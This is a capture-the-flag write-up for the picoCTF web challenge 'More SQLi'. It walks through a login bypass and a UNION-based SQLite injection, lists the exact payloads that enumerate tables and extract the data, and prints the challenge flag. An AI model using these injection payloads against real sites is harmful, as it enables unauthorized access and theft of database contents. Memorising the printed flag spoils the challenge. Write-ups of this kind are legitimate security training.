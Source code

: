 ##Challenge: More SQLi

##Category: Web Exploitation

## Description: Can you find the flag on this website. 

###Hints:

####1. SQLiLite

The exploit of the chall was to use SQL injections to bypass login and exfiltrate data from the web server hosting the website. The login bypass is an obstacle that I have done before, which is to basically comment out a field and make the boolean expression in the login evaluate to true. The main issue I had was figuring out how to exfiltrate the database data. I tried copypasta'ing SQL and more specifically SQLite payloads by implementing a UNION statement, but none of them seemed to work, even when I commented out the latter part of the query made by the server and closed out the single quotation. I then realized that when I made a UNION statement, the number of columns of the table already being queried had to match up to the number of columns of the table referenced in the latter part of the statement. I made the adjustment by using 3 placement arguments for 3 columns in the tables I was exfitrating in the SELECT statements that I was placing in the UNION ones, allowing me to get the information I needed. Here are the payloads I used, sequentially:

####>' OR 1=1;-- to bypass login

####>' union SELECT tbl_name,1,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--

>Shows 4 tables: hints, more_table, offices, users

####>' union SELECT sql,1,2 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';--

>Prints out commands used to generate table, shows its column names

####>' union SELECT id,info,3 from hints;--

> Nothing important, id and flag are the two columns in the table

####>' union select id,flag,3 from more_table;--

>BOOM flag unlocked

####Reference: [1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)

###Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}

Solved by giggsterpuku
